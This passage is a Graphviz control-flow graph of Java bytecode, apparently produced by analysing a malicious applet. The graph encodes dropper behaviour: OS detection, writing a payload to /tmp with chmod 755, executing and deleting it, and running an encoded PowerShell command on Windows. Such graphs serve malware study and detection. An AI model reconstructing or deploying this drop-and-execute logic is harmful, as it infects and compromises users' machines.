    "load.r r73"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \" \""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \" \"";
    "push \" \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r75";
    "load.r r75"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"\\\"\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"\\\"\"";
    "push \"\\\"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r73";
    "load.r r73"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean delete()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean delete()>";
    "virtualinvoke <java.io.File: boolean delete()>"->"pop";
    "goto load.r r0"
    "pop"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "fieldput <Java: java.lang.Object initialized>"
    "load.r r0"->"fieldput <Java: java.lang.Object initialized>";
    "fieldput <Java: java.lang.Object initialized>"->"goto return";
    "ifeq load.r r4"->"load.r r4";
    "push \"i\""
    "load.r r4"->"push \"i\"";
    "push \"i\""->"virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>";
    "virtualinvoke <java.lang.String: boolean contains(java.lang.CharSequence)>"->"ifeq load.r r75";
    "ifeq load.r r75"->"load.r $r46";
    "load.r $r46"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 3";
    "push 3"->"ifcmple.i load.r r75";
    "ifcmple.i load.r r75"->"new java.lang.ProcessBuilder";
    "new java.lang.ProcessBuilder"->"dup1.r";
    "dup1.r"->"push 5";
    "push 5"->"newarray";
    "newarray"->"store.r $r51";
    "store.r $r51"->"load.r $r51";
    "load.r $r51"->"push 0";
    "push 0"->"push \"cmd\"";
    "push \"cmd\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r51";
    "load.r $r51"->"push 1";
    "push 1"->"push \"/c\"";
    "push \"/c\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r51";
    "load.r $r51"->"push 2";
    "push 2"->"push \"powershell\"";
    "push \"powershell\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r51";
    "load.r $r51"->"push 3";
    "push 3"->"push \"-EncodedCommand\"";
    "push \"-EncodedCommand\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r51";
    "load.r $r51"->"push 4";
    "push 4"->"load.r $r46";
    "load.r $r46"->"arraywrite.r";
    "arraywrite.r"->"load.r $r51";
    "load.r $r51"->"specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>";
    "specialinvoke <java.lang.ProcessBuilder: void <init>(java.lang.String[])>"->"virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>";
    "virtualinvoke <java.lang.ProcessBuilder: java.lang.Process start()>"->"store.r $r46";
    "store.r $r46"->"load.r $r46";
    "load.r $r46"->"virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>";
    "virtualinvoke <java.lang.Process: java.io.OutputStream getOutputStream()>"->"virtualinvoke <java.io.OutputStream: void close()>";
    "virtualinvoke <java.io.OutputStream: void close()>"->"load.r $r46";
    "load.r $r46"->"virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getInputStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "virtualinvoke <java.io.InputStream: void close()>"->"load.r $r46";
    "load.r $r46"->"virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>";
    "virtualinvoke <java.lang.Process: java.io.InputStream getErrorStream()>"->"virtualinvoke <java.io.InputStream: void close()>";
    "ifcmpge.b staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"/bin/chmod 755 \""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"/bin/chmod 755 \"";
    "push \"/bin/chmod 755 \""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r73";
    "load.r r73"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"load.r r73";
    "load.r r73"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.lang.Process: int waitFor()>";
    "virtualinvoke <java.lang.Process: int waitFor()>"->"pop";
    "pop"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r73";
    "load.r r73"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean delete()>";
    "virtualinvoke <java.io.File: boolean delete()>"->"pop";
    "ifgt load.r r3"->"load.r r3";
    "load.r r3"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.i i0";
    "virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>"
    "load.i i0"->"virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>";
    "goto load.r r1"
    "virtualinvoke <java.io.OutputStream: void write(byte[],int,int)>"->"goto load.r r1";
    "iflt load.r r3"->"load.r r3";
    "push \"mac\""
    "load.r r3"->"push \"mac\"";
    "push \"mac\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r3";
    "iflt load.r r3"->"load.r r0";
    "push \"OSX\""
    "load.r r0"->"push \"OSX\"";
    "push \"OSX\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r74";
    "store.r r74"->"push 1";
    "push 1"->"store.b b17";
    "store.b b17"->"load.r r73";
    "push \"/var/folders/\""
    "load.r r73"->"push \"/var/folders/\"";
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"
    "push \"/var/folders/\""->"virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>";
    "ifeq new java.lang.StringBuilder"
    "virtualinvoke <java.lang.String: boolean startsWith(java.lang.String)>"->"ifeq new java.lang.StringBuilder";
    "push \"/tmp/\""
    "ifeq new java.lang.StringBuilder"->"push \"/tmp/\"";
    "push \"/tmp/\""->"store.r r73";
    "store.r r73"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r73";
    "load.r r73"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \".bin\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".bin\"";
    "push \".bin\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r73";
    "store.r r73"->"goto load.r r74";
    "iflt load.r r3"->"load.r r3";
    "push \"nix\""
    "load.r r3"->"push \"nix\"";
    "push \"nix\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "ifge load.r r0"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"ifge load.r r0";
    "ifge load.r r0"->"load.r r3";
    "push \"nux\""
    "load.r r3"->"push \"nux\"";
    "push \"nux\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt load.r r74"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt load.r r74";
    "iflt load.r r74"->"load.r r0";
    "push \"LINUX\""
    "load.r r0"->"push \"LINUX\"";
    "push \"LINUX\""->"virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <Java: java.lang.String getParameter(java.lang.String)>"->"store.r r74";
    "store.r r74"->"push 2";
    "push 2"->"store.b b17";
    "store.b b17"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r73";
    "load.r r73"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \".bin\"";
    "push \".bin\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r73";
}
